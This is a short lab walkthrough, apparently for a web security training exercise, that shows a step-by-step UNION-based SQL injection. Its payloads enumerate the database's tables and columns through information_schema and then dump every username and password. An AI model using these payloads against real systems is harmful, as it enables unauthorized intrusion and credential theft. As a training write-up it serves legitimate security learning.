 # Lab
1) Determine number of columns and confirm they can hold string data
`' UNION SELECT 'abc','def'--`<br>
2) Use the following payload to retrieve the list of tables in the database:
```bash
' UNION SELECT table_name, NULL FROM information_schema.tables--
```
after using it I find table named: `users_mxcjah`<br>
3) Use the following payload (replacing the table name) to retrieve the details of the columns in the table:
```bash
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users_mxcjah'--
```
After using that payload I found 2 columns for users and passwords: `username_tpngqp` and `password_gtvpsz`<br>
4) Use the following payload (replacing the table and column names) to retrieve the usernames and passwords for all users:
```bash
' UNION SELECT username_tpngqp, password_gtvpsz FROM users_mxcjah--
```

## Perfect explanation on you tube
https://youtu.be/JduM_dO8glw
